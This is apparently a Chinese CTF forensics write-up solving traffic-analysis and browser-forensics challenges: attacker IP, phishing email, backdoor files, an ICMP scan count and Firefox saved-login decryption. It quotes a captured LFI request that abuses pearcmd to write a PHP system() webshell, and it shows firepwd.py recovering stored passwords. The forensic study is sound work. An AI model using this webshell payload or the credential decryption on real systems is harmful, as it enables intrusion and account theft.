PS：实际上很大流量包但是只用得着第一个与最后一个，所以这里附件只保存了第一个和最后一个【网上也没找到说一下怎么筛选海量流量的；只能说按照经验恶意试探与后门上传在前面的流量，后门利用去后面流量找吧】
攻击IP地址
1 | 某黑客对A公司发动了攻击，以下是一段时间内我们获取到的流量包，那黑客的攻击ip是多少？ |
-
博客思路是找访问最频繁的IP → 感觉比较合理 → 正常谁会持续高强度访问一个网站？
-
统计来源 IP
第一个就是（不是的话顺序往下试）【正好不是内网IP，可能性激增】
1 | flag{183.129.152.140} |
黑客电子邮箱
1 | 黑客对A公司发动了攻击，以下是一段时间内获取到的流量包，那黑客使用了哪个邮箱给员工发送了钓鱼邮件? |
- 涉及到邮件，直接筛选SMTP协议【这里需要先协议分级里面看一下（貌似直接筛选也行……）】
阶段 Info（截图原文/关键信息） 这一阶段在做什么 1. 服务器打招呼 S: 220 ESMTP READYTCP 连接建立后，SMTP 服务器先发 220 表示“我准备好了”。 2. 客户端问候（ESMTP） C: EHLO BAY004-OMC1S5.hotmail.com客户端用 EHLO 打招呼，并声明自己的主机名。 3. 服务器返回能力列表 S: 250-mail.t3sec.cc Hello ...ETRN 4. 声明信封发件人 C: MAIL FROM:<xssser@live.cn>开始“信封阶段”：先说这封信的信封发件人是谁。 5. 服务器接受发件人 S: 250 <xssser@live.cn>, Sender ok服务器确认发件人合法/可接受。 6. 添加收件人（可多次） C: RCPT TO:<it@t3sec.cc>指定一个收件人。出现多条 RCPT TO就表示多收件人。7. 服务器接受收件人 S: 250 <it@t3sec.cc>, Recipient ok服务器确认这个收件人可投递。 8. 第二个收件人 C: RCPT TO:<lixiaofei@t3sec.cc>又加了一个收件人。 9. 服务器接受第二个收件人 S: 250 <lixiaofei@t3sec.cc>, Recipient ok确认第二个收件人也 OK。 10. 进入正文阶段 C: DATA客户端说：信封说完了，我要开始发邮件内容（头+正文）。 11. 服务器允许发送正文 S: 354 Enter mail, end with <CRLF>.<CRLF>354 表示进入数据输入模式；结束符是 \r\n.\r\n（单独一行点号）。12. 传输正文（分段） C: DATA fragment, 1446 bytes，并有红字[TCP Previous segment not captured]；以及SMTP/IMF from: ... subject: =?gb2312?B?...这里就是邮件头/正文在 TCP 里分段传输。你抓包有丢段（Previous segment not captured），所以正文内容可能不完整。 SMTP/IMF那行开始能看到邮件头字段（From/Subject）。13. 服务器确认已接收入队 S: 250 Ok, message saved <Message-ID: ...>服务器确认这封邮件已接收并保存/入队（不等于对方最终已读，但 SMTP 这段成功）。 14. 客户端退出 C: QUIT会话正常结束。 15. 服务器关闭连接 S: 221 See ya in cyberspace221：服务器说“再见”，准备断开连接。
- 追踪流 FROM 的就是黑客邮箱了，因为只有黑客给发了邮件（实则上面Info已经看到了）
- 补充：如果有多用户的话；可以查看邮件内容是否具备钓鱼邮件特征
【传输的内容是 base64 编码的 → 这里直接解码是乱码是因为是中文的不是UTF-8的英文字符 → 加上GBK解码】
1 | flag{xsser@live.cn} |
后门文件
1 | 某黑客对A公司发动了攻击，以下是一段时间内我们获取到的流量包，那黑客预留的后门的文件名是什么？ |
- 一般后门利用的话都去最后的流量包找（发现后门才停的服务，最后一个一定是发现了后门的）
- 本来想按照正常思路过滤 POST 请求然后找来着【刚开始是想找后门文件是怎么上传的】 → 这个家伙前面时弱密码，中间尝试目录穿越+XSS测试，后面又开始弱密码 → （中间几个文件还有上传一堆的文件的）看的头都大了
- 这里看博客发现一个新思路：题目要求找出后门，一般渗透思路来说，对php站点，上传了一个木马后会测试phpinfo能不能返回，根据这一点搜索
phpinfo()【怎么是神人GET传参？？？】
1 | tcp contains "phpinfo()" |
1 | flag{admin.bak.php} |
Web漏洞页面
题目来源[NewStarCTF 2023 公开赛道]2-分析
1 | 但你心中仍然有一种不祥的预感，这时你的同事告诉你这台服务器已经被攻击者获取到了权限，需要你尽快去还原攻击者的攻击路径，调查清楚攻击者是如何获取到服务器权限的。 |
- 先过滤了一下
http协议发现海量的请求和 404 响应，是爆破扫描的痕迹
- 于是去找一下不是 404 的回显看看黑客扫出来了什么；挨个看了一下回显对应的请求，发现一个异常的
1 | http://localhost/index.php?page=/../../../../usr/share/php/pearcmd&+config-create+/&<?=system($_GET['a'])?>+/var/www/html/wh1t3g0d.php |
| 片段 | 代表的攻击点 | 黑客意图 |
|---|---|---|
index.php?page=... |
入口参数可控，疑似 include/require 动态加载页面 |
找到可利用的入口（LFI） |
/../../../../usr/share/php/pearcmd |
目录穿越 + 本地文件包含（LFI）去包含系统脚本 pearcmd |
不是读文件，而是“借用 pearcmd 的逻辑”做后续动作 |
+config-create+... |
把参数伪装成命令行参数喂给 pearcmd | 触发 pearcmd 的“生成/写文件”能力 |
...[恶意 PHP 代码]... |
要写进文件的内容（后门） | 落地可执行的 webshell |
/var/www/html/wh1t3g0d.php |
写入路径是 Web 根目录 | 让后门能被 HTTP 直接访问，从而获得远程命令执行入口 |
利用 LFI 把 pearcmd 当作工具，尝试把一段恶意 PHP 写进 Web 根目录，从而获得远程代码执行入口（RCE）
- 那这个
wh1t3g0d.php就是黑客写入的后门文件了，而有漏洞的代码文件就是index.php了 → 其参数page存在漏洞；现在还需要确认黑客登录的用户名与密码了 - 考虑到用户名与密码一般都是
POST传参，过滤POST的请求；下一个就是登录的账户密码
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
1 | flag{best_admin_index.php_wh1t3g0d.php} |
黑客内网扫描次数
题目来源：攻防世界-工控安全取证-方向：Crypto
1 | 有黑客入侵工控设备后在内网发起了大量扫描，而且扫描次数不止一次。 |
- 拿到的是一个虚假的
log，file看是pcap；改后缀用wireshark打开
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
- 看协议分级主要是
TCP和ICMP流量；考虑到题目描述说是内网扫描了，优先过滤ICMP协议**【一般先用 ICMP Echo Request 扫一遍内网 IP 段，找哪些主机在线；然后只对在线的主机继续用 TCP 扫端口】**
1 | icmp && icmp.type == 8 |
- 发现只有4个IP扫描过
192.168.0.99；顺着数下来第四次就是192.168.0.199的155989了
1 | flag{155989} |
浏览器取证
火狐登录凭证（Firepwd）
题目来源：BuuCTF-[GKCTF 2021]FireFox Forensics
1 | 取证大佬说这是一份登录凭证文件 |
- 打开题目，有两个文件分别是 Firfox的记录文件
logins.json和密钥文件key4.db
key4.db → SQLite 数据库 → 保存 Firefox 的 密钥材料 + 加密相关元数据，用于解密已保存密码/证书私钥等
logins.json → JSON 文本文件 → 保存 Firefox 的已保存登录信息条目列表：
网站/域名（hostname/formSubmitURL）
用户名字段、密码字段（通常是加密后的字符串）
时间戳、使用次数等元数据（不同版本字段略有差异）
logins.json = 账号密码条目（加密的）；key4.db = 解密这些条目所需的规则 → 所以在浏览器取证里，通常要成对拿到
- 先把
logins.json与key4.db放到firepwd.py同路径下，然后用firepwd.py破解
1 | python firepwd.py logins.json # web虚拟环境 |
1 | # 输出的最后一行 |
- 这就是
logins.json里那对encryptedUsername/encryptedPassword被成功解密后的 用户名/密码。 - URL 是对应条目的站点。
1 | GKCTF{9cf21dda-34be-4f6c-a629-9c4647981ad7} |
文件取证
PDF取证
参考博客：Hello-CTF
原WP
1 | # 下载文件 |
1 | The Romulan Business Network is looking for new security consults. Get the key to earn credits as signing bonus. |
这里文件修复涉及PDF文件格式；鉴于PDF题目较为少见，准备先去学习一下其他文件格式之后再来学习这个
【上一次做还是2025网安先锋者的3_comstego】